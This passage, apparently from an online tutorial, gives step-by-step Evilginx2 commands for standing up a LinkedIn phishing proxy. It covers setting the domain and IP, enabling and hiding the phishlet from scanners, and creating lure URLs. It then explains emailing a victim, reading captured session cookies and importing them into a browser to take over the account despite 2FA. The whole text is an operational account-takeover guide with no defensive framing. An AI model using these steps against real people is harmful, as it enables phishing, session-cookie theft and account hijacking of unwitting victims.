 Set up your server's domain and IP using following commands:
```
config domain yourdomain.com
config ip 10.0.0.1 (your evilginx server IP)
configure redirect_url https://linkedin.com
```
Let's set up the phishlet you want to use. For the sake of this short guide, we will use a LinkedIn phishlet. Set up the hostname for the phishlet (it must contain your domain obviously):
```
phishlets hostname linkedin linkedin.com.yourdomain.com
```
And now you can enable the phishlet, which will initiate automatic retrieval of LetsEncrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```
phishlets enable linkedin
```
**NOTE:** Running phishlets will only respond to phishing links generating for specific lures, so any scanners who scan your main domain will be redirected to URL specified as ```redirect_url``` under ```config```. We can use ***hide*** option to hide our phishlet and make it not respond even to valid lure phishing URLs.

```
phishlet hide linkedin
```

Your phishing site is now live. Think of the URL you want the victim to be redirected to on successful login and get the phishing URL like this (victim will be redirected to https://linkedin.com):
```
lures create linkedin
lures edit 0 redirect_url https://linkedin.com
lures get-url 0
```
**NOTE:** Look at the lure ID here. In this example it is "0" but for you it might be different.


### Taking over the account

With the URL you got from Evilginx2, prepare your phishing email (be creative here :) ) and deliver it to your victim.

Since today most services support Two-Factor-Authentication (2FA) mechanisms we are going to bypass that protection. Session captured by Evilginx contains cookie in JSON format that easily can be copied and imported into Chrome browser, using [Cookie-Editor](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm?hl=en) extension.

You can monitor Evilginx captured sessions with following command:
```
sessions
```
To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```
sessions <id>
```

Now, browse to legitimate LinkedIn page, grab the cookie from Evilginx session and past it into the browser's extension. Remove any previous cookies before pasting the new one.
![Image](/assets/pics/copy_cookie.png)